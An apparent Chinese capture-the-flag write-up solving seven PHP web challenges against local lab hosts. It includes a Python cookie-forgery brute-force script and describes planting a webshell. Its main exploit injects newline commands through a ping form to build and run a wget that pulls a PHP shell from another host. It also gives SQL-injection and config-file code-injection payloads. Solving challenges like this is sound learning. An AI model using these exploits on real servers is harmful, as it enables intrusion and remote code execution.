 # trick 1
考察全局变量GLOBALS

# trick 2
简单的加密
分析一下可以知道我们获得了guest的加密内容以及随机值但不知道key值，而且我们要伪造system加密值

这里system 与 guest只差一个字符所以要爆破一下最后一个字符

```
import requests
import urllib
s = "guest"
s = "".join([chr(ord(i)+10) for i in s])
mid = "BH^IO"
mid = "".join([chr(ord(s[i])^ord(mid[i])) for i in range(5)])
print mid
s1 = "system"
# print s1[-1:]
s1 = "".join([chr(ord(i)+10) for i in s1])
last = s1[-1:]
dic = "1234567890abcdef"
ls = "".join([chr(ord(last)^ord(i)) for i in dic])
print ls

demo = "".join([chr(ord(s1[i])^ord(mid[i])) for i in range(5)])
for i in ls:
    print i
    user = ("WgEG"+demo+i).encode("base64")
    # print 
    cookie = {
    "user":urllib.quote(user)
        }
    re = requests.get("http://127.0.0.1/var/trick%202.php",cookies=cookie)
    print re.content

```

# trick 3
一道简单的代码审计，很明显是要种马

那我们可以随意输入的地方就是path参数
因为我们的输入都能打印出来

path是写入的路径 URL是获取的文件的路径 打印的是写入的路径 所以我们一次是是写不出shell的
首先将此文件写出去 然后利用path特性种马即可

# trick 4
这道题目本地复现的时候出现了很多问题，post传参方式不同也会影响结果
```
#!/usr/bin/python
# -*- coding: utf-8 -*-
import requests
def GetShell():
    s=requests.session()
    url = "http://192.168.43.165/ping.php"
    url1 = "http://192.168.60.128/web200-3/src/"
    header = {
        "Content-Type":"application/x-www-form-urlencoded"
    }
    data1={'username':'a','password[]':'a'}
    # s.post(url1,data=data1,headers=header)
    '''
    wget\\
    \ 19\\
    2.\\
    16\\
    8.\\
    60.\\
    12\\
    8\ \\
    1.php\ \\
    -O\ \\
    2.php
    '''
    fileNames = ["2.php", "-O\ \\\\", "1.php\ \\","8\ \\\\", "12\\\\", "60.\\\\", "8.\\\\", "16\\\\","2.\\\\", "\ 19\\\\", "wget\\\\"]
   # 多出的\只是为了充填，无论几个\都是一样的作用
    ip = "0.0.0.1%0a"
    for fileName in fileNames:
        createFileIp = ip + ">" + fileName
        print createFileIp
        data = "ip=" + createFileIp#这里不知道为什么普通的传参不行
        s.post(url, data=data,headers=header,)
    getShIp = ip + "ls%20-t>1"  #新生成的文件输入进1中
    print getShIp
    data = "ip=" + getShIp
    s.post(url, data=data,headers=header)
    getShellIp = ip + "sh%201" # 执行1这个脚本
    print getShellIp
    data = "ip=" + getShellIp
    s.post(url, data=data,headers=header)
if __name__ == "__main__":
    GetShell()
```

# trick 5
简单的加以分析，因为要注入pass中的值，而且pass被过滤所以利用order By来进行比较
但前提是要知道admin的值，所以利用`username='^1^1#&password=1`把用户名爆出来
下面就好写了

# trick 6
一个简单的配置文件写入问题
方法有很多种，但大多是要写两次

## 1
http://127.0.0.1/index.php?option=a';%0aphpinfo();//
http://127.0.0.1/index.php?option=a

## 2 利用 preg_replace函数的问题:
preg_replace函数在处理字符串的时候,会自动对第二个参数的 \ 这个字符进行反转移. 具体为啥要这样干,我也不太懂. 也就是说如果字符串是 \\\',经过 preg_replace()的处理,就变为 \\',单引号就逃出来了.
http://127.0.0.1/index.php?option=a\';phpinfo();//

## 3 preg_replace() 函数的第二个参数的问题
这个方法很巧秒
replacement中可以包含后向引用\n 或(php 4.0.4以上可用)$n，语法上首选后者。 每个 这样的引用将被匹配到的第n个捕获子组捕获到的文本替换。 n 可以是0-99，\0和$0代表完整的模式匹配文本。
http://127.0.0.1/test/ph.php?option=;phpinfo();
http://127.0.0.1/test/ph.php?option=%00 或者 http://127.0.0.1/test/ph.php?option=$0

# trick 7
考察PHP文件名的特性这里写入1.php/.就可以绕过 猜测是路径解析不报错的